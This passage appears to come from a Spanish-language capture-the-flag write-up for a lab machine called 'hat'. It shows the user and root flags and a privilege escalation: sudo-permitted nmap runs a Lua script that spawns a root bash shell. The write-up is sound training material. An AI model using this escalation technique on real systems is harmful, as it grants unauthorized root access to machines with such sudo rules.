 Veremos que estaremos dentro, por lo que leeremos la `flag` del usuario.

> user.txt

```
d3ea66f59d9d6ea12351b415080b5457
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for cromiphi on hat:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cromiphi may run the following commands on hat:
    (root) NOPASSWD: /usr/bin/nmap
```

Vemos que podemos ejecutar el binario `nmap` como el usuario `root`, por lo que haremos lo siguiente:

```shell
TF=$(mktemp)
echo 'os.execute("/bin/bash")' > $TF
sudo nmap --script=$TF
```

Info:

```
Starting Nmap 7.70 ( https://nmap.org ) at 2025-08-16 20:18 CEST
NSE: Warning: Loading '/tmp/tmp.cpaeQKBVG1' -- the recommended file extension is '.nse'.
root@hat:/home/cromiphi# whoami 
root
```

Con esto veremos que ya seremos `root`, por lo que leeremos la `flag` de `root`.

> root.txt

```
8b4acc39c4d068623a16a89ebecd5048
```
